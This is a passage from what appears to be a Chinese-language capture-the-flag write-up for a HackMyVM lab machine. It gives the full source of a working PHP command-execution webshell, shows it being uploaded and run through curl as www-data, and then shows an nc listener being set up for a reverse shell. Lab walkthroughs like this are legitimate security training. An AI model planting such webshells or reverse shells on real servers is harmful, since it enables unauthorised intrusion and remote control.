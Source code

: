 发现 `/images/` 目录。但是是301状态，尝试在`/images/`访问`reverse.php`显示404,服务器对文件名做了处理（MD5或者其他哈希）
重新上传一个简单的PHP一句话木马，内容为：

```php
<?php
if (isset($_REQUEST['cmd'])) {
    $command = $_REQUEST['cmd'];
    echo "<pre>"; // For better formatting of command output

    // Execute the command
    // Using passthru for direct output, or system/exec if preferred
    passthru($command, $return_var);
    // Alternatively:
    // $output = shell_exec($command);
    // echo htmlentities($output);

    echo "</pre>";
} else {
    echo "<html><head><title>PHP CMD Exec</title></head><body>";
    echo "<form method='GET'>";
    echo "Enter command: <input type='text' name='cmd' autofocus>";
    echo "<input type='submit' value='Execute'>";
    echo "</form>";
    echo "<p>Example: ?cmd=ls -la OR ?cmd=whoami</p>";
    echo "</body></html>";
}
?>
```

上传时，给文件名加了一个`'`成功报错拿到了真实文件名。
![image-20250516165009887](https://7r1umphk.github.io/image/20250516165010255.webp)
访问 `http://dark.disguise.hmv/images/8d755f95e5203d7d71d93aefa9649514.php?cmd=id`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ curl http://dark.disguise.hmv/images/8d755f95e5203d7d71d93aefa9649514.php?cmd=id
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

命令成功执行，当前用户为 `www-data`。

# 七、权限提升

## 7.1 获取反弹Shell

利用已上传的Webshell获取一个反弹Shell，以便进行更方便的操作。
在Kali上设置监听：

```
┌──(kali㉿kali)-[/mnt/hgfs/gx/shell]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```
